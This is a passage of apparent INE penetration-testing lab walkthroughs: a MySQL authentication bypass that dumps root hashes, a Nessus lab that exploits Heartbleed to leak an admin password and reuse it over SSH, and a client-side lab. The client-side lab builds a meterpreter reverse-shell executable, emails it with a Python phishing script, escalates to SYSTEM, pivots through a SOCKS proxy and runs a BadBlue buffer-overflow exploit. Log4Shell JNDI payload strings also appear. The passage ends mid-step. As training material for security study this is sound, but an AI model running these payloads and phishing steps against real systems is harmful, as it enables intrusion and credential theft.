[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 30% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 40% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 50% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 60% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 70% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 80% complete
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Successfully bypassed authentication after 850 attempts. URI: mysql://root:C@192.10.68.5:3306
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Saving HashString as Loot: root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
[+] 192.10.68.5:3306      - 192.10.68.5:3306 Hash Table has been saved: /root/.msf4/loot/20240215192652_default_192.10.68.5_mysql.hashes_792305.txt
[*] demo3.ine.local:3306  - Scanned 1 of 1 hosts (100% complete)
```

We have successfully bypassed MySQL authentication and dumped all user's hashes using the Metasploit auxiliary module.

In this exercise, we have learned that we can take the help of automated scanning tools, but we cannot rely on them for the final conclusion.

It's always good to look at the exposed services/applications manually and confirm that it is secure or vulnerable. Vulnerability Analysis is a very vast subject and requires in-depth knowledge of all running components.

---

### Nessus - Lab

In this lab, you will use Nessus to perform basic and advanced vulnerability analysis of the provided target machines running three different web applications.

This exercise will help you understand how to perform basic and advanced vulnerability scanning using Nessus and work with Nessus from the Metasploit Framework to analyze the scan results and perform exploitation. You will also learn about generating scan result reports and exporting scan results in various formats.
Lab Environment

In this lab environment, the user is going to get access to a Kali GUI instance. Three websites are provided with this setup. Those can be accessed using the tools installed on Kali at http://demo.ine.local, http://demossl.ine.local, and http://webserver.ine.local.

Objective: Perform the following tasks:
- Performing basic scans with Nessus.
- Work with Nessus from the Metasploit Framework.
- Perform advanced scans with custom configuration with Nessus.
- Exploit detected vulnerabilities from Metasploit to recover credentials of the website users.
- Analyze how the scan results change when SSH credentials are configured in Nessus.
- Generate the report for the scan results.
- Export the scan results in both XML as well as SQLite format.

Use the following credentials to connect to Nessus:
- Username: admin
- Password: adminpasswd

The following domains are provided:
- demo.ine.local
- demossl.ine.local
- webserver.ine.local

The best tools for this lab are:
- Nessus
- Metasploit Framework
- A web browser

---

**Step 1**: *Performing basic scans with Nessus.*

`firefox https://localhost:8834 &`.

`demo.ine.local, demossl.ine.local, webserver.ine.local`, `Submit`, `Run Scan`.

So with that, we have taken a look at the basic issues detected with all three target machines. 

**Step 2**.

`nano /root/Desktop/hosts.txt`:
```
demo.ine.local
demossl.ine.local
webserver.ine.local
```

`for host in $(cat /root/Desktop/hosts.txt); do ping $host -c 3; done;`:
```
PING demo.ine.local (192.10.26.3) 56(84) bytes of data. ←
64 bytes from demo.ine.local (192.10.26.3): icmp_seq=1 ttl=64 time=0.118 ms
64 bytes from demo.ine.local (192.10.26.3): icmp_seq=2 ttl=64 time=0.059 ms
64 bytes from demo.ine.local (192.10.26.3): icmp_seq=3 ttl=64 time=0.046 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2048ms
rtt min/avg/max/mdev = 0.046/0.074/0.118/0.031 ms
PING demossl.ine.local (192.10.26.4) 56(84) bytes of data. ←
64 bytes from demossl.ine.local (192.10.26.4): icmp_seq=1 ttl=64 time=0.181 ms
64 bytes from demossl.ine.local (192.10.26.4): icmp_seq=2 ttl=64 time=0.041 ms
64 bytes from demossl.ine.local (192.10.26.4): icmp_seq=3 ttl=64 time=0.073 ms

--- demossl.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.041/0.098/0.181/0.059 ms
PING webserver.ine.local (192.10.26.5) 56(84) bytes of data. ←
64 bytes from webserver.ine.local (192.10.26.5): icmp_seq=1 ttl=64 time=0.102 ms
64 bytes from webserver.ine.local (192.10.26.5): icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from webserver.ine.local (192.10.26.5): icmp_seq=3 ttl=64 time=0.066 ms

--- webserver.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2041ms
rtt min/avg/max/mdev = 0.047/0.071/0.102/0.022 ms
```

**Step 3**.

`nmap -sS -sV -iL /root/Desktop/hosts.txt`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-15 20:20 IST
Nmap scan report for demo.ine.local (192.10.26.3)
Host is up (0.000010s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu)) ←
3306/tcp open  mysql   MySQL (blocked - too many connection errors) ←
MAC Address: 02:42:C0:0A:1A:03 (Unknown)

Nmap scan report for demossl.ine.local (192.10.26.4)
Host is up (0.000010s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) ←
443/tcp open  ssl/http nginx 1.11.13 ←
MAC Address: 02:42:C0:0A:1A:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for webserver.ine.local (192.10.26.5)
Host is up (0.000011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu)) ←
MAC Address: 02:42:C0:0A:1A:05 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 13.41 seconds
```

`nmap --script vuln -iL /root/Desktop/hosts.txt`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-15 20:22 IST
Nmap scan report for demo.ine.local (192.10.26.3) ←
Host is up (0.000011s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=demo.ine.local
|   Found the following possible CSRF vulnerabilities: ←
|     
|     Path: http://demo.ine.local:80/
|     Form id: login
|     Form action: /login.php
|     
|     Path: http://demo.ine.local:80/login.php
|     Form id: login
|     Form action: /login.php
|     
|     Path: http://demo.ine.local:80/user_new.php
|     Form id: login
|_    Form action: /user_new.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /login.php: Possible admin folder
|   /test.php: Test page
|   /robots.txt: Robots file
|   /info.php: Possible information file
|   /phpinfo.php: Possible information file
|   /.git/HEAD: Git folder
|   /db/: BlogWorx Database
|   /apps/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /db/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /documents/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /passwords/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|   /soap/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|_  /stylesheets/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
| http-git: 
|   192.10.26.3:80/.git/
|     Git repository found! ←
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/fermayo/hello-world-lamp.git
3306/tcp open  mysql
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:42:C0:0A:1A:03 (Unknown)

Nmap scan report for demossl.ine.local (192.10.26.4) ←
Host is up (0.000010s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=demossl.ine.local
|   Found the following possible CSRF vulnerabilities: ←
|     
|     Path: https://demossl.ine.local:443/login
|     Form id: 
|_    Form action: /login
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption. ←
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
|_http-dombased-xss: Couldn't find any DOM based XSS.
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection) ←
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.cvedetails.com/cve/2014-0224
|_      http://www.openssl.org/news/secadv_20140605.txt
MAC Address: 02:42:C0:0A:1A:04 (Unknown)

Nmap scan report for webserver.ine.local (192.10.26.5)
Host is up (0.000010s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /.git/HEAD: Git folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-git: 
|   192.10.26.5:80/.git/
|     Git repository found! ←
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Flag is removed now :) 
MAC Address: 02:42:C0:0A:1A:05 (Unknown)

Nmap done: 3 IP addresses (3 hosts up) scanned in 321.99 seconds
```

Now that we know of all the domains, we can scan them using Nessus. 

**Step 4**: *Work with Nessus from the Metasploit Framework.*

Instead of using the web browser GUI, we can also use Nessus from Metasploit. This will help us if we want to assess and exploit any vulnerability. Since we have already performed the scan, we will load the Nessus results in the Metasploit Framework and automatically exploit the vulnerabilities.

`service postgresql status`, `service postgresql start`, `service postgresql status`.

`msfconsole -q`, `load nessus`, `nessus_connect admin:adminpasswd@localhost`.

`nessus_help`, `nessus_scan_list`:
```
Scan ID  Name                    Owner  Started  Status     Folder
-------  ----                    -----  -------  ------     ------
5        My Host Discovery Scan  admin           completed  3
8        My Basic Network Scan   admin           completed  3
```

`nessus_report_hosts 8`:
```
Host ID  Hostname       % of Critical Findings  % of High Findings  % of Medium Findings  % of Low Findings
-------  --------       ----------------------  ------------------  --------------------  -----------------
2        192.206.248.3  0                       0                   1                     0
3        192.206.248.4  0                       1                   10                    0
4        192.206.248.5  0                       0                   0                     0
```

`nessus_report_vulns 8`:
```
Plugin ID  Plugin Name                                                                    Plugin Family      Vulnerability Count
---------  -----------                                                                    -------------      -------------------
10107      HTTP Server Type and Version                                                   Web Servers        3
10114      ICMP Timestamp Request Remote Date Disclosure                                  General            3
10267      SSH Server Type and Version Information                                        Service detection  1
10287      Traceroute Information                                                         General            3
10302      Web Server robots.txt Information Disclosure                                   Web Servers        1
10863      SSL Certificate Information                                                    General            1
10881      SSH Protocol Versions Supported                                                General            1
11219      Nessus SYN scanner                                                             Port scanners      5

...

153588     SSH SHA-1 HMAC Algorithms Enabled                                              Misc.              1
```

Let's import the results for Basic Network Scan in Metasploit: `nessus_db_import 8`.

The vulnerabilities and targets for My Basic Network Scan have been imported into the database. To explore the list, run the following command: `vulns`.

**Step 5**: *Exploit detected vulnerabilities from Metasploit to recover credentials of the website users.*

`search heartbleed`, `use auxiliary/scanner/ssl/openssl_heartbleed`, `show options`, `set RHOSTS demossl.ine.local`, `set VERBOSE true`, `exploit`.

Inspect the generated output.

Notice that there are traces of the JNDI LDAP payload to exploit the Log4Shell vulnerability. Nessus tested for this vulnerability, and that's why it's in the memory of the NGINX server. 

```
essus.org/nessus}=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};JSESSIONID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};SESSIONID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};PHPSESSID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};token=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};session=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..User-Agent: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..Pragma: no-cache..If-Modified-Since: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..Accept: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}....^...n..yZ!..{.."..d..:.%v...t...Q.......................................................
```

Run the scan command multiple times and inspect the retrieved memory contents.
This time the output contains the credentials of a website user:
```
[*] 192.206.248.4:443     - Printable info leaked:
......e.L.03;r..x#%Tw.e..O..]..H7.u)=...f.....".!.9.8.........5.............................3.2.....E.D...../...A..........................................!hJ]..~.s........Content-Type: application/x-www-form-urlencoded......c phi..6.t1.......B...+.._.username=admin&password=thisistherealadmin.m....S..`....W.....0.......................................................................................................................................
```

In some cases, the passwords might contain extra characters. That's because this module omits all the non-printable characters. So if you wish to detect the complete password, either run the scan command multiple times and compare the results of different runs for the correct password, or you can try out the password and remove characters one by one from it until you find the correct set of credentials.

**Step 6**.

If you recall, SSH service was also available on the target machine.

Albeit a bad practice, sometimes people use a common set of credentials across multiple services. Since we recovered credentials for a few users leveraging the Heartbleed vulnerability, we can try those to SSH into the target machine. 

`ssh admin@demossl.ine.local`.

And with that, we have SSH access to the target machine located at `demossl.ine.local`.

We will be using this shortly.

**Step 7**: *Analyze how the scan results change when SSH credentials are configured in Nessus.*

Visit the My Scans page and click on the `New Scan` button on the top-right corner of the page.

Based on the provided set of target machines, there are two interesting scans we can run, namely `Advanced Scan` and `Web Application Tests`.

Select and configure the `Advanced Scan`.
We will be scanning only one target, namely `demossl.ine.local`.
Since we know the SSH credentials to that machine, specify those as well under Credentials > SSH:
- Username: admin
- Password: thisistherealadmin.

Notice our newly created scan is listed under My Scans. Run the previously created advanced scan.

Since we provided SSH credentials, Nessus was able to identify issues with the local system. 

**Step 8**: *Perform advanced scans with custom configuration with Nessus.*

Select and configure the `Web Application Tests`.
Enter the scan name and specify `demo.ine.local` and `webserver.ine.local` as the targets.
Notice the scan is pre-configured. Let's keep this as is and move on to the Assessments section and select `Scan for all web vulnerabilities (complex)` option.

Please note that this specific scan would take some time to complete since it performs more extensive scans.
But as we shall see, with more time spent, you would get back more results that wouldn't have been received with a quick scan as many tests are skipped there. 

**Step 9**: *Generate the report for the scan results.*

At this time, we have the option to create a report in PDF/HTML/CSV formats containing the list of vulnerabilities by the host.

**Step 10**: *Export the scan results in both XML as well as SQLite format. *

We can export the results in two formats:
- XML (XML file containing this scan's details and the results)
- SQLite (Nessus db).

---

### Client-Side Exploitation - Lab

In this lab, you will learn to scan the target machine to discover services and perform phishing attacks to gain access to the system.

In this lab environment, the user will access a Kali GUI instance. A vulnerable instance can be accessed using the tools installed on Kali on http://demo.ine.local and http://demo1.ine.local

Target Email Address: bob@ine.local

Objective: Exploit both the target and find the flag!

The best tools for this lab are:
- Nmap
- Metasploit Framework
- Python

Tasks are meant for educational purposes and to show you the usage of different tools and different methods to achieve the same goal.

---

**Step 1**.

`for host in demo.ine.local demo1.ine.local; do ping $host -c 3; done`:
```
PING demo.ine.local (10.4.23.2) 56(84) bytes of data.
64 bytes from demo.ine.local (10.4.23.2): icmp_seq=1 ttl=125 time=9.58 ms
64 bytes from demo.ine.local (10.4.23.2): icmp_seq=2 ttl=125 time=8.68 ms
64 bytes from demo.ine.local (10.4.23.2): icmp_seq=3 ttl=125 time=8.41 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms ←
rtt min/avg/max/mdev = 8.414/8.891/9.576/0.496 ms
PING demo1.ine.local (10.4.22.101) 56(84) bytes of data.

--- demo1.ine.local ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2051ms` ←
```

**Step 2**.

`nmap -sS -Pn demo.ine.local demo1.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-01 13:56 IST
Nmap scan report for demo.ine.local (10.4.23.2)
Host is up (0.0089s latency).
Not shown: 976 closed tcp ports (reset)
PORT      STATE SERVICE
25/tcp    open  smtp ←
53/tcp    open  domain
88/tcp    open  kerberos-sec
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
143/tcp   open  imap
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
587/tcp   open  submission
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
49165/tcp open  unknown

Nmap scan report for demo1.ine.local (10.4.22.101)
Host is up.
All 1000 scanned ports on demo1.ine.local (10.4.22.101) are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Nmap done: 2 IP addresses (2 hosts up) scanned in 5.10 seconds
```

In this lab, we will perform attacks on the SMTP service.
By default, the SMTP service uses port 25.

**Step 3**.

`nmap -sV demo.ine.local -p 25`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-01 14:13 IST
Nmap scan report for demo.ine.local (10.4.23.2)
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    hMailServer smtpd ←
Service Info: Host: ATTACKDEFENSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.12 seconds
```

`nmap --script smb-os-discovery demo.ine.local`:
```
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: attackdefense
|   NetBIOS computer name: ATTACKDEFENSE\x00
|   Domain name: ine.local
|   Forest name: ine.local
|   FQDN: attackdefense.ine.local
|_  System time: 2024-02-01T09:18:32+00:00

Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

**Step 4**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.13/16 brd 10.1.255.255 scope global eth0
inet 10.10.22.5/24 brd 10.10.22.255 scope global eth1
```

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=10.10.22.5 -f exe -o /root/Desktop/attachment.exe`

`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.22.5`, `exploit`.

**Step 5**.

`featherpad /root/Desktop/send_email_smtplib.py &`:
```python
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

# Sender and recipient information
sender_email = "alice@fake.net"
recipient_email = "bob@ine.local"
email_subject = "Requested file"
email_body = "I attach the requested file."

# SMTP server configuration
smtp_server = "demo.ine.local"
smtp_port = 25
#smtp_username = "your.username"
#smtp_password = "your.password"

# Create the email message object
message = MIMEMultipart()
message["From"] = sender_email
message["To"] = recipient_email
message["Subject"] = email_subject
message.attach(MIMEText(email_body, "plain"))

# Add the attachment
attachment_file = "/root/Desktop/attachment.exe"
attachment = open(attachment_file, "rb")
attachment_part = MIMEBase("application", "octet-stream")
attachment_part.set_payload(attachment.read())
encoders.encode_base64(attachment_part)
attachment_part.add_header("Content-Disposition", f"attachment; filename= {attachment_file}")
message.attach(attachment_part)

# Connect to the SMTP server and send the email
with smtplib.SMTP(smtp_server, smtp_port) as server:
    #server.starttls()
    #server.login(smtp_username, smtp_password)
    server.send_message(message)

print("Email sent successfully!")
```

`python3 /root/Desktop/send_email_smtplib.py`:
```
Email sent successfully!
```

**Step 6**.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : INE
Logged On Users : 4
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: INE\administrator
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

**Step 7**.

`shell`, `ping 10.4.31.141 -n 3`:
```
Pinging 10.4.31.141 with 32 bytes of data:
Reply from 10.4.31.141: bytes=32 time=1ms TTL=128
Reply from 10.4.31.141: bytes=32 time<1ms TTL=128
Reply from 10.4.31.141: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.31.141:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

**Step 8**.

`ping demo.ine.local -c 1`:
```
PING demo.ine.local (10.4.29.185) 56(84) bytes of data. ←
64 bytes from demo.ine.local (10.4.29.185): icmp_seq=1 ttl=125 time=9.74 ms

--- demo.ine.local ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 9.735/9.735/9.735/0.000 ms
```

`ping demo1.ine.local -c 1`:
```
PING demo1.ine.local (10.4.31.141) 56(84) bytes of data. ←

--- demo1.ine.local ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

`sessions -i 1`, `run autoroute -s 10.4.31.0/24`, `run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.4.31.0          255.255.255.0      Session 1 ←
```

**Step 9**.

`proxychains --version`:
```
[proxychains] config file found: /etc/proxychains4.conf ←
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
proxychains can't load process....: No such file or directory
```

`cat /etc/proxychains4.conf`:
```
...

[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4		127.0.0.1	9050 ←
```

`exit`, `background`, `search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `exploit`:
```
[*] Starting the SOCKS proxy server
```

**Step 10**.

`proxychains nmap -sS -Pn demo1.ine.local -p 1-150`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-17 19:03 IST
Nmap scan report for demo1.ine.local (10.4.16.197)
Host is up.
All 150 scanned ports on demo1.ine.local (10.4.16.197) are in ignored states.
Not shown: 150 filtered tcp ports (no-response) ←

Nmap done: 1 IP address (1 host up) scanned in 31.19 seconds]
```

`proxychains nmap -sT -Pn demo1.ine.local -p 1-150`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-17 19:04 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:23 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:53 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:21 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:22 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:25 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:76 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.16.197:39 <--denied

...

Nmap scan report for demo1.ine.local (10.4.16.197)
Host is up (1.1s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http ←

Nmap done: 1 IP address (1 host up) scanned in 105.38 seconds
```

`proxychains nmap -sT sV -Pn demo1.ine.local -p80`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-19 15:53 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.23.103:80  ...  OK
Nmap scan report for demo1.ine.local (10.4.23.103)
Host is up (0.072s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    BadBlue httpd 2.7 ←
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

**Step 11**.

`searchsploit badblue 2.7`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                      | windows/remote/4784.pl ←
BadBlue 2.72b - Multiple Vulnerabilities                                                                            | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                               | windows/remote/16806.rb
Working Resources BadBlue 1.2.7 - Denial of Service                                                                 | windows/dos/20641.txt
Working Resources BadBlue 1.2.7 - Full Path Disclosure                                                              | windows/remote/20640.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We have received an output stating that the badblue 2.7 server is vulnerable to a PassThru buffer overflow.

`searchsploit -m 4784`:
```
  Exploit: BadBlue 2.72 - PassThru Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/4784
     Path: /usr/share/exploitdb/exploits/windows/remote/4784.pl
File Type: Perl script text executable

Copied to: /root/4784.pl ←
```

`cat /root/4784.pl`.

**Step 12**.

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/x64/meterpreter/bind_tcp`, `show options`, `set RHOSTS demo1.ine.local`, `exploit`.

The demo1.ine.local machine is not accessible from the Kali machine, so we can't use the reverse_tcp payload. This is an essential step for us to choose the correct payload. In this case, we have to use the `bind_tcp` payload to gain the meterpreter session. 

**Step 13**.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`getuid`:
```
